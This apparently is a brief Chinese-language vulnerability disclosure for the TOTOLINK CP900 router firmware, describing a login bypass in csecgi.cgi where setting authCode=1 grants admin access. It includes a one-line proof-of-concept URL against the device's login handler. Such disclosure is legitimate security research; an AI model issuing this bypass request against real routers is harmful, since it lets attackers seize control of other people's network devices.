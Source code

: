 # TOTOLINK 存在逻辑漏洞

品牌: TOTOLINK

产品型号: CP900

固件版本: TOTOLINK_C8B810C-1A_CP900_CP0016_QCA9531_SPI_16M128M_V6.3c.566_B20171026_ALL.web

下载链接: http://www.totolink.cn/data/upload/20210720/5bee10397c082b0419cbad3eb7d1bd97.zip

## 漏洞细节

允许远程攻击者绕过登录，直接接管设备后台

In csecgi.cgi:

In sub_42A2D0 function

![image-20220329122138559](8-1.png)

authCode=0 代表 login 失败

authCode=1 代表 login 成功

## POC

http://192.168.0.254/formLoginAuth.htm?authCode=1&userName=admin

![image-20220328132102577](8-2.png)



